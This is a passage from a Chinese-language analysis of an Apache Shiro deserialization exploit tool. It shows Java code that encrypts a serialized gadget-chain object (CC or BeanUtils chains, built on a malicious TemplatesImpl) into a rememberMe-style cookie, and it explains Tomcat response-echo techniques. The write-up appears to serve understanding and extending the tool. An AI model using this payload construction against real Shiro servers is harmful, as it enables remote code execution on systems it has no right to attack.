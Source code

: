       17.         nameField.setAccessible(true);
    
      18.         nameField.set(templates, "a");
    
      19.         return templates;
    
      20.     }
    
    
    

通过getObject获取恶意对象

通过getObject方法获取恶意对象，在这个工具里使用的利用链主要为CC链和`Beanutils`链。

AES加密构建好的恶意对象

由于Shiro在高版本中更换了GCM加密方式，因此根据版本的不同选择不同的加密算法。

    
          1. public String sendpayload(Object chainObject, String shiroKeyWord, String key) throws Exception {
    
      2.         byte[] serpayload = SerializableUtils.toByteArray(chainObject);
    
      3.         byte[] bkey = DatatypeConverter.parseBase64Binary(key);
    
      4.         byte[] encryptpayload = null;
    
      5.         //根据版本不同使用不同的加密算法
    
      6.         if (AttackService.aesGcmCipherType == 1) {
    
      7.             GcmEncrypt gcmEncrypt = new GcmEncrypt();
    
      8.             String byteSource = gcmEncrypt.encrypt(key,serpayload);
    
      9.             System.out.println(shiroKeyWord + "=" + byteSource);
    
      10.             return shiroKeyWord + "=" + byteSource;
    
      11.         } else {
    
      12.             encryptpayload = AesUtil.encrypt(serpayload, bkey);
    
      13.         }
    
      14.         return shiroKeyWord + "=" + DatatypeConverter.printBase64Binary(encryptpayload);
    
      15.     }
    
    
    

关于利用链这里我想多提一些内容，因为本来分析这款工具的原理就是为了扩展利用链。通过上面的分析可以看到作者做了一个抽象，`getObject`传入的对象是构建好的`TemplateImpl`对象，所以这也是作者实现的利用链不多的原因，因为不是所有的利用链封装的都是`TemplateImpl`对象，而且也有很多利用方式无法回显利用。

### 回显方式分析

#### Tomcat

Tomcat的回显主要的思路都是获取Response对象，并向Response中写入执行结果来实现，下面我对多种Tomcat回显的方式做一个简要总结。

  * `ApplicationFilterChain#lastServicedResponse`中记录了response的内容，所以可以通过获取`lastServicedResponse`来获取Response对象并进行写入。使用这种方式需要请求两次，因为在默认情况下`lastServicedResponse`中并不会记录`response`，所以第一次请求需要修改一个属性值让`lastServicedResponse`记录`response`。但是这种方式不能用在Shiro反序列化中回显，因为Shiro的反序列化发生在`lastServicedResponse`缓存Response之前，所以我们无法在反序列化的过程中拿到缓存中的Response对象。
